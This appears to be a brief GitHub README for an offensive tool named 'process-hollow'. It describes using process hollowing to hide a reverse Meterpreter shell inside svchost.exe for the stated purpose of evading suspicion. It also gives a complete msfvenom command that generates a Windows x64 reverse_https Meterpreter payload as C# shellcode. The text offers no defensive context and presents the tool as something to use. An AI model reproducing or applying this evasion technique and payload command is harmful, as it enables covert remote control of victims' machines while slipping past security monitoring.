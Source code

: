 # process-hollow
evading suspicion by using process hollowing technique 
writes shellcode into the suspended process
reverse Meterpreter shell executing inside a svchost.exe process
msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f csharp
![image](https://github.com/user-attachments/assets/25effbcc-9f2a-406e-87f8-465596b4b22f)
